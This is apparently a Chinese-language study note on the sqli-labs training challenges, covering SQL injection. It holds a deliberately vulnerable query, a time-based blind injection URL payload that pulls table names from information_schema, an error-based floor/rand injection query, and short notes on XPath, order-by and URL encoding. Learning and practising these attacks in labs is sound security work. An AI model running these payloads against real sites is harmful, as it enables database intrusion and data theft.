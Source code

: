 - **GET - Challenge - Double Query -5 Queries Allowed - Variation 4**</br>
	$sql="SELECT * FROM security.users WHERE id=(('$id')) LIMIT 0,1";

- **GET - Challenge - Blind -130 Queries Allowed - Variation 1**</br>
	盲注了,该写脚本了，boolean或者延时,注意使用二分提高效率</br>
	?id=1%27)and If(ascii(substr((select group_concat(tabl e_name)%20from%20information_schema.tables%20where%20table_schema=%27challenges%2 7),1,1))=79,0,sleep(10))--+

### 三.杂记

- 盲注</br>
	语句执行完后没有回显</br>
	1.基于布尔</br>
	构造条件，有无界面显示来判断自己构造的消息是否正确（相当于猜测再验证，可以利用二分法提高效率）</br>
	2.基于报错</br>
	SELECT COUNT(SCHEMA_NAME) FROM information_schema.SCHEMATA GROUP BY CONCAT(VERSION(),FLOOR(RAND(0)\*2));</br>
	[Err] 1062 - Duplicate entry '5.7.23-0ubuntu0.16.04.11' for key '<group_key>'</br>
	具体原理不懂，concat, floor, group by，rand(0)是关键</br>
	如果rand被禁用可以使用用户变量来报错？？</br>
	或者XPath报错等</br>
	3.基于时间-延迟注入</br>
	利用if,当条件正确或错误时，确定要不要sleep()来猜测</br>

- insert/update/delete注入</br>
	思路：利用MYSQL对XML文档数据进行查询和修改的XPATH函数，进行报错回显</br>

-	order by</br>
	可以用来确定有几列，如 order by 4 ,报错没有第四列</br>

- url编码
  	空格    -    %20
  	"          -    %22
  	#         -    %23
  	%        -    %25
  	&         -    %26
  	(          -    %28
  	)          -    %29
  	+         -    %2B
  	,          -    %2C 逗号
  	/          -    %2F
  	:          -    %3A
  	;          -    %3B
  	<         -    %3C
  	=         -    %3D
  	>         -    %3E
  	?         -    %3F
  	@       -    %40
  	\          -    %5C
  	|          -    %7C
  	'               %27  单引号

